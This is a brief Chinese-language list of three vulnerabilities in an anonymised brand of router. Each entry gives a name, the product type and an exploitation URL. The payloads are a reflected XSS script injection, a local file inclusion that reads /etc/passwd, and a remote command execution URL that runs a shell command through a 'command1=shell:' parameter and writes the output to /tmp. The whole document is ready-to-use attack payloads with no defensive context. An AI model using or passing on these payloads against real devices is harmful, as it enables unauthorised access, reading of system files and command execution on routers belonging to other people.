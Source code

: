 漏洞名称：某星路由器XSS漏洞
产品介绍：路由器设备
利用方式：https://x.x.x.x/%3Cscript%3Ealert(1)%3C/script%3E



漏洞名称：某星路由器本地包含漏洞
产品介绍：路由器设备
利用方式：https://x.x.x.x/(download)/etc/passwd



漏洞名称：某星路由器远程命令执行漏洞
产品介绍：路由器设备
利用方式：https://x.x.x.x/(download)/tmp/test.txt?command1=shell:ls%20-la%20|%20dd%20of=/tmp/test.txt